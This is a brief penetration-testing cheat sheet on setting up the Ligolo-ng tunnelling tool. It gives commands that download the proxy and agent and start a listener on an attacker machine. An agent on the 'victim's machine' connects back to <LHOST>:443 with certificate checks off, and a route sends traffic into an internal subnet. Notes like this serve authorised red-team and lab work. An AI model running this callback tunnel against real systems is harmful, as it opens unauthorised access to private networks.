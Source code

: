 # Ligolo-ng

### Ligolo-ng

-  https://github.com/nicocha30/ligolo-ng

### Download Proxy and Agent

```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz

wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```

### Prepare Tunnel Interface (in Kali Machine)

```bash
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```bash
$ sudo ip link set ligolo up
```

### Setup Proxy on Attacker Machine

```bash
$ ./proxy -laddr <LHOST>:443 -selfcert
```

### Setup Agent on Target Machine (in Victim’s Machine)

```bash
$ ./agent -connect <LHOST>:443 -ignore-cert
```

### Session

```bash
ligolo-ng » session
```

```bash
[Agent : user@target] » ifconfig
```

```bash
# in kali normal terminal , not inside ligolo shell
$ sudo ip r add 172.16.1.0/24 dev ligolo
```

```bash
[Agent : user@target] » start
```
